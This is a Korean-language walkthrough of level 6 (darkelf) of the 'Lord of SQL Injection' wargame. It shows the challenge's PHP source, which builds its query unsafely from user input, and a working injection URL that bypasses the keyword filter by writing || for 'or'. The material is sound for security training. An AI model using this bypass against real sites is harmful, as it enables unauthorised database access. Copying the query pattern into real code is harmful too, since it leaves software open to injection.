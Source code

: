 Lord of SQL Injection No.6 - darkelf
=============
```
<?php
  include "./config.php";
  login_chk();
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("darkelf");
  highlight_file(__FILE__);
?>
```
위 문제에서 알 수 있는 것
-------------

preg_match로 인해 . ()가 $_GET[pw]에 들어 있으면 No Hack ~_~이 뜨면서 문제풀이에 실패하게 된다.

preg_match로 인해 or and가 대소문자 구분없이 $_GET[pw]에 들어가 있으면 HeHe라고 뜨며 문제풀이에 실패하게 된다.

id값은 고정되어 있으므로 pw에 값을 넣어 조작해야한다.

DB에 저장된 id 값이 admin이 되도록 조작하면 문제가 풀린다.

문제 풀이 법
-------------

1.or and 우회

or은 기호로 파이프라인 두개와 같고(||) and는 기호로 앤퍼센트 두개와 같다.(&&)

  los.eagle-jump.org/darkelf_6e50323a0bfccc2f3daf4df731651f75.php?pw=123'|| id='admin'-- -
  or이 들어갈 부분을 ||으로 대체
